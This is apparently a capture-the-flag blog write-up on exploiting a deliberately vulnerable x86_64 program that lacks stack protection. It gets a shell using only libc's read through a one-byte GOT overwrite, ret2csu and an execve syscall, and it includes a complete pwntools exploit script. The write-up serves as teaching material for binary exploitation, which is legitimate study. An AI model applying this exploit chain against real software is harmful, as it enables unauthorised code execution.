

While playing some pwn in HackZone CTF, i figured out a new technique for Arbitrary Code Execution only by using the read function from libc.
TL;DR
It’s almost impossible for a security research to exploit a binary only with Arbitrary Write, because in real world you need to leak some data (Specially when ASLR is enabled) and then jump to the right place. However i got an idea of how to get RCE using only read@GLIBC (Arbitrary Write) on a X86_64 platform.
PWN.c
// gcc -fno-stack-protector -no-pie pwn.c -o pwn
#include <stdio.h>
#include <stdlib.h>
int main(){
char buf[100];
read(0, &buf, 500);
}
Following this code, we will be compiling it and try to exploit it using our method!
Arch: amd64-64-little
RELRO: Partial RELRO
Stack: No canary found
NX: NX enabled
PIE: No PIE (0x400000)
As we can see the GOT table is writable, so this will help us to overwrite the read@GOT but the problem is what kind of data we’ll using it to overwrite the read@GOT since we don’t have the ability to leak address and ASLR is enable!
Read@GOT
root@kali:~# objdump -R ./pwn
./pwn: file format elf64-x86-64
DYNAMIC RELOCATION RECORDS
OFFSET TYPE VALUE
0000000000403ff0 R_X86_64_GLOB_DAT __libc_start_main@GLIBC_2.2.5
0000000000403ff8 R_X86_64_GLOB_DAT __gmon_start__
0000000000404018 R_X86_64_JUMP_SLOT read@GLIBC_2.2.5
gdb-peda$ x/g 0x404018
0x404018 <read@got.plt>: 0x00007ffff7ee2850
In our example the address 0x404018 in the GOT table points to the address of read@GLIBC_2.2.5 in libc.
Read@GLIBC
gdb-peda$ disassemble read
Dump of assembler code for function __GI___libc_read:
0x00007ffff7ee2850 <+0>: lea rax,[rip+0xd3b79]
0x00007ffff7ee2857 <+7>: mov eax,DWORD PTR [rax]
0x00007ffff7ee2859 <+9>: test eax,eax
0x00007ffff7ee285b <+11>: jne 0x7ffff7ee2870 <__GI___libc_read+32>
0x00007ffff7ee285d <+13>: xor eax,eax
0x00007ffff7ee285f <+15>: syscall
0x00007ffff7ee2861 <+17>: cmp rax,0xfffffffffffff000
0x00007ffff7ee2867 <+23>: ja 0x7ffff7ee28c0 <__GI___libc_read+112>
0x00007ffff7ee2869 <+25>: ret
0x00007ffff7ee286a <+26>: nop WORD PTR [rax+rax*1+0x0]
0x00007ffff7ee2870 <+32>: sub rsp,0x28
0x00007ffff7ee2874 <+36>: mov QWORD PTR [rsp+0x18],rdx
0x00007ffff7ee2879 <+41>: mov QWORD PTR [rsp+0x10],rsi
0x00007ffff7ee287e <+46>: mov DWORD PTR [rsp+0x8],edi
0x00007ffff7ee2882 <+50>: call 0x7ffff7efe570
...
Following the assembler code for function read@GLIBC, we can see that the first syscall instruction is only 15bit from the first instruction followed by ret which is only 45bit from the first instruction.
One byte overwrite in the read@GOT can create a gadget of
syscall; ret
Summarize

PWN
To summarize all the steps to exploit the binary, what we need to do is :
- We need to use
ret2csutechnique in order to control the RDI, RSI and RDX. - Using the read function to write
/bin/shin the.bsssection. - Overwrite the
read@GOTwith one byte0x5fin order for the read function to point in thesyscallinstruction. - Because we overwrite with
onebyte, that’s mean theRAXis equal to1. - The RAX register is equal to 1 and the read function is pointing in syscall instruction. That’s mean we have a
writefunction. - Using the write function, we will read
0x3bsize of arbitrary data from (.text or .bss) in order for the RAX to be equal to 0x3b (sys_execve). - Now we have
RAXequal to0x3band we have/bin/shin the memory, all what we need to do is to fire asyscall. - We got a shell.
Exploit
from pwn import *
p = process('./pwn')
read_got = p64(0x404018) # read@got
read_plt = p64(0x401030) # read@plt
str_bin_sh = p64(0x404100) # 0x00404000 (bss) + 0x100
text = p64(0x401000) # .text section
csu_init1 = p64(0x4011a2) # pop rbx
csu_init2 = p64(0x401188) # mov rsi, r13
csu_fini = p64(0x4011b0) # ret
sys_execve = p64(0x3b)
null = p64(0x0)
one = p64(0x1)
zero = p64(0x0)
stdin = p64(0x0)
stdout = p64(0x1)
junk = 'JUNKJUNK'
bin_sh = '/bin/sh\x00'
len_bin_sh = p64(len(bin_sh))
def ret2csu(func_GOT, rdi, rsi, rdx):
ret_csu = zero # pop rbx
ret_csu += one # pop rbp
ret_csu += rdi # pop r12
ret_csu += rsi # pop r13
ret_csu += rdx # pop r14
ret_csu += func_GOT # pop r15
ret_csu += csu_init2 # ret
ret_csu += junk # add rsp,0x8
return ret_csu
crash = 'A' * 120
# Write '/bin/sh' in str_bin_sh
rop = csu_init1
rop += ret2csu(read_got, stdin, str_bin_sh, len_bin_sh)
# Overwrite read@got with one_byte
rop += ret2csu(read_got, stdin, read_got, one)
# Read arbitrary data in order to gt 0x3b in RAX
rop += ret2csu(read_got, stdout, text, sys_execve)
# sys_execve('/bin/sh')
rop += ret2csu(read_got, str_bin_sh, null, null)
payload = crash + rop
exploit = payload.ljust(500, 'A')
p.send(exploit)
p.send(bin_sh)
p.send('\x5f')
garbage = p.recv()
p.interactive()